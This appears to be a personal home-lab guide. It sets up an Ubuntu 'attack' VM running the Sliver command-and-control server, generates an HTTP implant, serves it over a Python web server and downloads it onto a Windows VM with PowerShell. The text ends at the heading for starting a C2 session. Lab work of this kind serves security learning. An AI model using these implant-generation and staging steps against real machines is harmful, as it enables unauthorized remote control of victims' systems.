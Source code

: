 # Ubuntu Config


# Set a static IP during the install (IPv4 Manual Config)
		Set a username && password
		name: user
		server name: attack
		Username: user
		Password: password
		
		Install OpenSSH server
			check / yes
		
		Continue Installing until it's complete
		Showing [Reboot now] then hit enter and Reboot
		
		After reboot check connectivity
			login with credentials
		
		check DNS outbound pings work
			ping -c 3 google.com
		
		if you see the icmp 3 times your good to go


# Setup Attack System (Linux VM)



	Since im on a MacOS in goint to SSH into the Linux VM from 
	my terminal. I do this because I can copy and paste as well as 
	scroll and look at output whereas on the VM itself once the 
	words have left the screen there is now way for me to bring 
	them back down.
	
	
	Open up a terminal and ssh into the machine
	
		ssh user@ipaddress-of-vm
	
	
	Inside the session proceed to setup the attacker c2 server
	switch root user
	
		sudo su
	
	
	Now we want to download Sliver a Command & Control c2 framework
	By: BishopFox
	You can copy & paste or type it in if you know what your doing
	
	# Download Sliver Linux server binary
	
	wget https://github.com/BishopFox/sliver/releases/download/
	v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
	
	
	# Make it Executable
	
	chmod +x /usr/local/bin/sliver-server
	
	
	# Install mingw-w64 for additional capabilities
	
	apt install -y mingw-w64
	
	
	We need a working Directory for future steps
	
		mkdir -p /opt/sliver
	
	
	
	### Explore these menu options and become familar with them
	
	Timeline (saves an extra 2-3 hours setting up other VMs)
	Processes (Real-time list of process activity)
	Network (Real time list active connections & listening ports)
	File System (Browse entire file system)



# Generate C2 Payload


	On the Linux Terminal Change into Root if not already
		sudo su
	
	Then change Directory
		cd /opt/sliver
	
	
	Launch Sliver server
		sliver-server
	
	
	Generate a C2 session payload (inside the Sliver shell)
		generate --http linux-ipaddress --save /opt/sliver
		
		take note of the unique output file
	
	
	Confirm the configuration of the new implants
		impants
		
	
	We have a payload we can drop on our Windows VM for now exit
		exit
	
	
	To Download the C2 payload from the Linux to the Windows VM
	We can use a python trick to spin up a temporary web server
	
	Change into the opt sliver Directory
		cd /opt/sliver
	
	Spin up the python server
		python3 -m http.server 80
	
	
	In the Windows VM open an Admin PowerShell console
	Download the C2 payload from the Linux VM to the Windows
	
	IWR -Uri http://linux-ipaddress/payload-name.exe -OutFile
	C:\Users\User\Downloads\payload-name.exe
	
	Take a snapshot of Windows VM before staging the malware
		name Snapshot "Malware staged" or something similar
	
	
	
# Start C2 Command and Control Session